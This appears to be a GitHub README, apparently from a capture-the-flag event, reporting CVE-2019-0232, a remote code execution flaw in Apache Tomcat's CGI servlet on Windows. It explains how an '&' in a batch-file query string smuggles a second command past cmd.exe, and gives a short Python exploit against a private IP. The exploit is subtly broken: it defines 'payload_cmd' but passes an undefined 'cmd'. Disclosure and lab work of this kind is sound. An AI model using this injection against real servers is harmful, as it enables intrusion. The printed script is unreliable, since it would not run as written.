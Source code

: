 <div align="center"><h1>CVE-2019-0232 REPORT</h1></div>

## About the vulnerability

Apache Tomcat's CGI servlet, on Windows, for the below versions, is vulnerable to RCE due to a bug in how JRE passes arguments to Windows cmd.

**On versions:** Apache Tomcat 7.0.0 to 7.0.93, 8.5.0 to 8.5.39 and 9.0.0.M1 to 9.0.17

**Pre-requisites:** CGI option enableCmdLineArguments enabled in web.xml for Apache Tomcat. This enables the CGI servlet feature. Atleast one batch file to be present in the cgi directory.

## Explanation

This vulnerability exploits the way JRE passes arguments to the Windows cmd which in turn is a feature only available in Windows cmd. Windows cmd.exe takes a string line as argument for all command line arguments to any program instead of tokenizing it into an array of strings. Any program (eg. abc.bat) run in cmd is run in a `cmd.exe` environment as `C:\Windows\system32\cmd.exe /c "abc.bat"`

Arguments passed to the batch file under `"`, its characters are copied to the new command line as it is ignoring all other meta characters until the next `"` is encountered. So a command like `abc.bat "&dir"` is translated to `C:\Windows\system32\cmd.exe /c "abc.bat "&dir""`

The metacharacter `&` in the above translation is read as a separator as cmd.exe thinks it is out of the scope of `"`. Hence, `dir` is executed after `abc.bat`. After `&` any malicious code can be injected and executed. The regex pattern accepted by JRE includes such separators like `&` and hence the above vulnerability is triggered and RCE can be obtained.

## Exploit

```
#!/usr/bin/python
import requests
def rce(url): #applies get request for the crafter url
    r = requests.get(url)
    print(r.content)

url = 'http://192.168.43.139:8080/cgi-bin/auxilary.bat?&'
payload_cmd = 'dir'
rce(url+cmd)
```
[Exploit on github](https://github.com/yash-bansod/Techmeet21-SAPTANG/blob/chall5/chall5/exploit_CVE-2019-0232.py)

This exploit was tested on Apache Tomcat 7.0.69 with JDK7 and allows RCE on the Apache Tomcat Server.

## Proof of Concept

[PoC video](https://www.youtube.com/watch?v=eXD1Mxmacco)
